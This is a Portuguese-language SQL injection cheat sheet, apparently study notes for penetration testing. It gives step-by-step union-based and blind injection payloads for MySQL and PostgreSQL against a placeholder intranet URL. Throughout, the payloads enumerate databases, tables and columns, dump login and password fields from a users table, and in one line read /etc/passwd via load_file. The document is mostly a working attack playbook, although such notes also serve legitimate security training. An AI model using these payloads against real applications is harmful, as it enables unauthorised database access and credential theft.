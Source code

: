 # SQL Injection

SQL = Structured Query Language
SQL é uma linguagem para gerenciar o banco de dados mas não é o banco de dados em si.

Os principais bancos de dados que utilizam o SQL são:
- Oracle
- SQL Server
- Mysql
- DB2
- PostgreSQL

---

SQLi básico:
teste' or 1=1;# **Preenchimento no formulário.**
http://intranet.businesscorp.com.br:8080/cat.php?id=3 or 1=1;# **Método GET via URL.**

SQLi limitando número de saídas:
teste' or 1=1 limit 1;# **Preenchimento no formulário.**

SQLi básico para ter uma saída mais limpa:
http://intranet.alvo.com.br:8080/cat.php?id=-1

Para descobrir o número de colunas é necessário ir incrementando até o erro ocorrer:
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 1 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 2 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 3 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 4 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 5 (**Com erro**)
*Nesse caso essa tabela possui 4 colunas.*

Também podemos descobrir o número de colunas através do UNION SELECT:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3,4 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,2,3,4,5 (**Com erro**)
*Nesse caso essa tabela possui 4 colunas.*

Agora devemos escolher um dos números que aparecem no site:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,"Teste",3,4
*A palavra **Teste** deve aparecer em algum lugar na página.*

Trazer a versão do Mysql:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,@@version,3,4
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,version(),3,4

Trazer nome do banco de dados:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,database(),3,4

Verificar usuário atual:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,current_user(),3,4

Verificar todos os bancos de dados:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata

Verificando todas as tabelas:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,table_name,3,4 from information_schema.tables;

Verificando as tabelas em um banco de dados específico:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema="nome_do_db";

Verificando as colunas de uma tabela:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema="nome_do_db" and table_name="nome_tabela";

Sabendo o nome da tabela e da coluna podemos efetuar um dump:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,login,3,4 from users;
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,password,3,4 from users;

Mostrando mais de uma informação por vez:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 1,concat(login,':',password),3,4 from users;

---

## SQL Injection (Blind)

Quando a informação passada for verdade a aplicação irá retornar algo, porém sendo falso a aplicação não irá retornar nada.

Lógica Booleana (verdadeiro[1] ou falso[0])

SQL Injection (Blind) básico:
1' and 1=1#

Para descobrir o número de colunas é necessário ir incrementando até a aplicação não retornar nada:
1' and 1=1 order by 1# (Com retorno da aplicação)
1' and 1=1 order by 2# (Com retorno da aplicação)
1' and 1=1 order by 3# (**Sem retorno da aplicação**)
*Ou seja, temos apenas duas colunas nessa tabela.*

Também podemos descobrir o número de colunas através do UNION SELECT:
1' and 1=1 union select 1# (Sem retorno da aplicação)
1' and 1=1 union select 1,2# (**Com retorno da aplicação**)
1' and 1=1 union select 1,2,3# (Sem retorno da aplicação)
*Como somente o segundo form está verdadeiro a aplicação irá responder.*

Teste número por número para que possamos identificar qual é exibido na aplicação:
1' and 1=1 union select 'teste1',2#
1' and 1=1 union select 1,'teste2'#

Tentando carregar arquivo do sistema:
1' and 1=1 union select 1,load_file('/etc/passwd')#

Verificando todas as tabelas:
1' and 1=1 union select 1,table_name from information_schema.tables#

Verificando as colunas de uma tabela:
1' and 1=1 union select 1,column_name from information_schema.columns where table_name='nome_tabela'#

Sabendo o nome da tabela e da coluna podemos efetuar um dump:
1' and 1=1 union select 1,user from users#
1' and 1=1 union select 1,password from users#

## SQL Injection PostgreSQL

No banco de dados PostgreSQL no lugar de números no **union select** iremos utilizar **null**.
O restante fica tudo muito parecido com o MySQL.

Para descobrir o número de colunas é necessário ir incrementando até o erro ocorrer:
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 1 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 2 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 3 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 4 (Sem erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 order by 5 (**Com erro**)
*Nesse caso essa tabela possui 4 colunas.*

Descobrir o número de colunas através do UNION SELECT:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null (Com erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null (Com erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null (Comm erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,null (**Sem erro**)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,null,null (Com erro)
*Nesse caso essa tabela possui 4 colunas.*

Validando a coluna onde usaremos para pegar as informações:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select 'null',null,null,null (Com erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,'null',null,null (**Sem erro**)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,'null',null (Com erro)
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,null,null,'null' (Com erro)
*A aplicação replica a informação na página através do campo dois.*

Verificar todos os bancos de dados:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,datname,null,null from pg_database;

Verificando todas as tabelas:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,tablename,null,null from pg_tables;
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,table_name,null,null from information_schema.tables;

Verificando as tabelas em um banco de dados específico:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,table_name,null,null from information_schema.tables where table_catalog='nome_do_db';

Verificando as colunas de uma tabela:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,column_name,null,null from information_schema.columns where table_name="nome_da_tabela";

Sabendo o nome da tabela e da coluna podemos efetuar um dump:
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,login,null,null from users;
http://intranet.alvo.com.br:8080/cat.php?id=-1 union select null,password,null,null from users;
